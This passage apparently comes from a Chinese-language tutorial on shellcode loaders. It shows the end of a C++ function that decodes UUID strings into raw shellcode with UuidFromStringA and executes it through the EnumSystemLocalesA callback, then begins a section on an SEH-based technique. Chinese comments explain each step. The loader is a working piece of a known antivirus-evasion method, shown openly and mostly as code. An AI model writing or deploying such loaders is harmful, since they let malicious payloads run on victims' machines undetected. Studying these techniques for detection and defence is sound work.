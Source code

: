 ```cpp
    }

    
    PBYTE buffer_backup = (PBYTE)buffer;  //定义一个存储uuid转换成的二进制字节序列(shellcode)
    int elems = sizeof(uuids) / sizeof(uuids[0]);  //获取uuid数组元素的个数

    /*
    UuidFromStringA函数将UUID值转换成二进制字节序列,其语法格式如下:
    RPC_STATUS UuidFromStringA(
        RPC_CSTR StringUuid,  //指向uuid形式的字符串的指针
        UUID * Uuid  //用于接收二进制字节序列的指针
    );
    */
    // 遍历uuids数组,并将UUID转换回原始的shellcode,然后存储在buffer_backup地址
    for (int i = 0; i < elems; i++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)buffer_backup);
        if (status != RPC_S_OK) {
            cout << "UuidFromStringA() != S_OK" << endl;
            CloseHandle(buffer);
            return -1;
        }
        buffer_backup += 16;  
    }
    
    /*
   EnumSystemLocalesA函数用于枚举系统中支持的所有区域设置,其语法格式如下:
   BOOL EnumSystemLocalesA(
     LOCALE_ENUMPROCA lpLocaleEnumProc,  //处理每个枚举到的区域设置信息的回调函数的地址
     DWORD            dwFlags  //指定枚举的方式
   );
   */
    // 使用 EnumSystemLocalesA 函数调用转换回的 shellcode
    EnumSystemLocalesA((LOCALE_ENUMPROCA)buffer, 0);

    // 关闭内存句柄
    CloseHandle(buffer);
}

void main() {
    
    // 调用 UuidLoader 函数
    UuidLoader();
}
```



# 9.基于SEH异常处理

## 什么是SEH
